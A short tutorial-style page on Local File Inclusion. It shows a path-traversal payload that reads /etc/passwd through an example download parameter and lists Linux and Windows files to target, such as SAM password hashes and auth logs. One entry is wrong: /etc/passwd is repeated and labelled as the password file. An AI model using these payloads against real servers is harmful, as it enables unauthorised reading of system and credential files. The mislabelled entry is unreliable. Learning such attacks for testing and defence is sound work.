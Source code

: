 # LFI

The **Local File Include** vulnerability is a web vulnerbility that allows a hacker to read/view sensitive information on the Web Server.

In practice, the follow URL may be affected by LFI vulnerability:

```
https://company.com/download?ticket=3123345123-345345123.json
```

We see that we can change the variable indicating the file to be displayed. Try to change it with a local file with possible sensitive information:

```
https://company.com/download?ticket=../../../../../../etc/passwd
```

This URL will display the entire file content.

```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
[..snip..]
```

## Sensitive file to get

{% code title="Linux Web Server" %}
```bash
/etc/passwd # system's user
/etc/passwd # system's password 
/etc/hosts # may contain subdomain
/var/log/apache2/access.log # may contain credentials
/var/log/auth.log # ssh logon
/var/log/secure # admin activities
```
{% endcode %}

{% code title="Windows Web Server" %}
```bash
C:\Windows\System32\drivers\etc\hosts # other domain and subdomain
C:\Windows\System32\config\SAM # password hashes 
C:\inetpub\logs\LogFiles\W3SVC1\*.log # IIS log
C:\Users\Administrator\Desktop\* # admin files
```
{% endcode %}





